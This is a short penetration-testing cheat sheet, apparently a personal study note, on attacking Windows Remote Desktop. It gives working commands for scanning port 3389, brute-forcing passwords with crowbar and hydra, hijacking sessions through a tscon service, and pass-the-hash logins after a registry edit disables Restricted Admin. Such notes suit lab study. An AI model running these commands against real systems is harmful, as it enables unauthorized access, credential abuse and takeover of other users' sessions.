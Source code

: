 More ways to enumerate in [RDP](obsidian://open?vault=Obsidian%20Vault&file=Footprinting%2FRemote%20Management%20Protocols)
```bash
# Enumeration 
nmap -Pn -p3389 192.168.2.143

# Bruteforce 
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

# Hijack RDP session
query user
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
net start sessionhijack

# Pass the Hash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

